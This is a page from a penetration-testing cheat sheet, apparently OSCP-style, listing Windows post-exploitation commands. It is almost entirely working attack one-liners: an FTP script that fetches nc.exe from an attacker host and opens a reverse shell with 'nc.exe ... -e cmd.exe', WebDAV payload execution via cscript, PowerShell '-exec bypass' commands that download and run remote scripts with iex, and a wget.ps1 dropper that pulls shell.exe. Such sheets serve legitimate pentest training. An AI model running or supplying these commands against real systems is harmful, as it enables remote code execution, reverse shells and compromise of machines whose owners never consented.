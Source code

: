 ```

# You can have a shell using this
echo open <attacker_ip> 21> ftp.txt
echo USER offsec>> ftp.txt
echo ftp>> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt
ftp -v -n -s:ftp.txt
nc.exe <attacker_ip> 1234 -e cmd.exe

```

### Downloading

```
Quick way to test webdav for execution:
davtest -url http://192.168.1.209

Also use cadaver then open $ip to access WebDav on cli

# Execute file from a WebDav server:
cscript //E:jscript \\IP\folder\payload.txt

# Download using wget.vbs
cscript wget.vbs http://IP/file.exe file.exe

# One liner download file from WebServer:
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://webserver/payload.ps1')|iex"
powershell -exec bypass -c "(new-object System.Net.WebClient).DownloadFile('http://IP/file.exe','C:\Users\user\Desktop\file.exe')"

# Download from WebDAV Server:
powershell -exec bypass -f \\IP\folder\payload.ps1

```

### Using File

```
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://10.10.14.11/Dropper/Windows/shell.exe" >>wget.ps1
echo $file = "shell.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
	
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1

```

### Downloading and Execution
